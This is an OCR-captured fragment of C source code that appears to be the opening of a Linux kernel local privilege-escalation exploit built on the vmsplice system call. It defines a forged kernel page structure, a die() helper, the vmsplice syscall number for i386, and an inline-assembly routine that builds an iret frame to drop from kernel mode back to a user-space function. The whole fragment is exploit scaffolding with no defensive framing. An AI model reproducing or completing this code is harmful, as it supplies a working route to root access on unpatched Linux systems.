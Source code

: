 #include &lt;malloc.h&gt;
#include &lt;limits.h&gt;
#include &lt;signal.h&gt;
#include &lt;unistd.h&gt;
#include &lt;sys/uio.h&gt;
#include &lt;sys/mman.h&gt;
#include &lt;asm/page.h&gt;
#define __KERNEL__
#include &lt;asm/unistd.h&gt;

#define PIPE_BUFFERS	16
#define PG_compound	14
#define uint		unsigned int
#define static_inline	static inline __attribute__((always_inline))
#define STACK(x)	(x + sizeof(x) - 40)

struct page {
	unsigned long flags;
	int count;
	int mapcount;
	unsigned long private;
	void *mapping;
	unsigned long index;
	struct { long next, prev; } lru;
};

void	exit_code();
char	exit_stack[1024 * 1024];

void	die(char *msg, int err)
{
	printf(err ? "[-] %s: %s\n" : "[-] %s\n", msg, strerror(err));
	fflush(stdout);
	fflush(stderr);
	exit(1);
}

#if defined (__i386__)

#ifndef __NR_vmsplice
#define __NR_vmsplice	316
#endif

#define USER_CS		0x73
#define USER_SS		0x7b
#define USER_FL		0x246

static_inline
void	exit_kernel()
{
	__asm__ __volatile__ (
	"movl %0, 0x10(%%esp) ;"
	"movl %1, 0x0c(%%esp) ;"
	"movl %2, 0x08(%%esp) ;"
	"movl %3, 0x04(%%esp) ;"
	"movl %4, 0x00(%%esp) ;"
	"iret"
	: : "i" (USER_SS), "r" (STACK(exit_stack)), "i" (USER_FL),
	    "i" (USER_CS), "r" (exit_code)
	);
}
